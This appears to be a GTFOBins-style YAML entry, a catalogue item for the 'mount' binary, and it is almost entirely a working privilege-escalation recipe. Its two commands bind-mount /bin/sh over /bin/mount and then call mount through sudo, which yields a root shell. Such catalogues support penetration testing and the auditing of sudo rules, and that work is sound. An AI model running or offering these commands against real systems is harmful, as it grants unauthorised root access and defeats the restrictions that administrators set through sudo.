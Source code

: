 ```yaml
---
name: mount
functions:
  sudo:
    - description: Exploit the fact that `mount` can be executed via `sudo` to *replace* the `mount` binary with a shell.
      code: |
        sudo mount -o bind /bin/sh /bin/mount
        sudo mount
---
```


